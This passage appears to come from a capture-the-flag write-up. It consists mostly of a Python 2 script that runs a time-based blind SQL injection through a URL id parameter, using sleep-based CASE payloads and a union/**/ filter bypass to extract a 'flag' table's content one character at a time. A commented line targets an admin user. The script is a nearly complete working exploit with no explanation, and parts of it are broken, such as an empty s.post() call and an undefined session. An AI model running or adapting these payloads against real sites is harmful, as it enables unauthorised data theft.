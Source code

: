 ```
			payload = "(select case when ((SELECT length(t.4) from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) ="+str(i)+") then sleep(2) else 0 end)"
		

			if get_data(payload):
				print "[*] content_length: "+str(i)
				content_length = i
				break

	content = ""

	tmp_content = ""	


	for i in range(1,content_length+1):
		for k in strings:
			tmp_content = content+str(k)
			tmp_content = tmp_content.ljust(content_length,'_')

			# payload = "1 and (SELECT ascii(mid(((SELECT user from admin limit 1))from("+str(i)+")))="+str(k+1)+") and (sleep(2))"
			payload = "(select case when ((SELECT t.4 from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) like '"+tmp_content+"') then sleep(2) else 0 end)"
		

			# print payload
			if get_data(payload):
				content += k
				print "[*] content: "+content
				break

	print "[*] content: " + content


def get_response(payload):

	s = requests.Session()
	username = "teststeststests1234\\"

	s.post()

def get_data(payload):
	
	u = url+'?id='+payload
	print u
	otime = time.time()
	# print u.replace(' ','%20')
	
	r = s.get(u)
	rr = r.text
	ptime = time.time()

	if ptime-otime >2:
		return True
	else:
		return False


get_content(url)
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2k4skvfxrdpk81z7h7ktz8a3/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wjyknopjz1krhiw5xiwdmck7/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d5qwbe52uoykxpukj2jng0nq/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/19xgb9vijfro6rt1tmtmq4a2/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/086wtfcoxjv3qiu42cmayvzv/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/inqsfwig6xb3bvudh8dhozzl/image.png